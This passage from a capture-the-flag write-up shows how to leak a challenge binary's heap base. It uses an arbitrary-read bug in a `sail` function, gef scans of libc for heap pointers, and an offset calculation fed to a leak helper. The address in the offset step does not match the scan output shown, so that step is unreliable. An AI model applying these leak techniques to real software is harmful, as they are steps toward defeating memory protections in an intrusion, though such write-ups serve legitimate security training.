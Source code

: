 We specifically are trying to find references to the heap from libc because we know the base address of libc and there are no references to the heap from the main executable (the other segment which base address we know right now). 

So, spinning up gef on `chall`, we set a breakpoint at the `scanf` call in `sail`, and run till we hit the breakpoint

```c
int sail(){
	void *location = 0;
	while (1) {
		puts("Where to, captain?");
		scanf("%zu", &location);
		if (!location) { break; }
		printf("Good choice! We gathered %zu gold coins.\n",*(uint64_t *)location);
	}
	puts("Back home? Hopefully the king will be pleased...");
	sleep(2);
	return 0;
}
```

Then, we scan for references to the heap in libc

```python
gef➤  scan libc heap
[+] Searching for addresses in 'libc' that point to 'heap'
libc.so.6: 0x00007ffff7fac3c0│+0x03c0: 0x0000000000405000  →  0x0000000000000000
libc.so.6: 0x00007ffff7facce0│+0x0ce0: 0x00000000004053a0  →  0x0000000000000000
```

Using gef's `vmmap` command, we get that the heap base addr is exactly `0x405000` for this run of the binary, which corresponds nicely with the first entry. It makes sense that after `malloc` runs, the base address of the heap would be stored somewhere in libc so that subsequent calls can locate the heap. 

We also see from `vmmap` that libc is loaded at the base addr `0x00007ffff7d87000`. We can then calculate the offset in libc at which one of the reference to the heap base addr occurs as shown

```python
libc_offset_ref_to_heapbase = 0x00007ffff7fa13c0 - 0x00007ffff7d87000
```

We then can send `libc_offset_ref_to_heapbase` added to the libc base addr (obtained in [Base Address of libc](#base-address-of-libc)) to the executable, and the output will be the heap base addr. 

```
heap_base_addr = leakfromaddr(libc.address + libc_offset_ref_to_heapbase, r)
```

### Base Address of the Stack

We use the same technique as in [Base Address of the Heap](#base-address-of-the-heap) (but with some modifications) to obtain the base address of the stack. Since the stack grows downwards, when the "base" of the stack is mentioned, I am referring to the largest address of the `[stack]` segment, not the lowest (which I consider to be the "top" of the stack). 
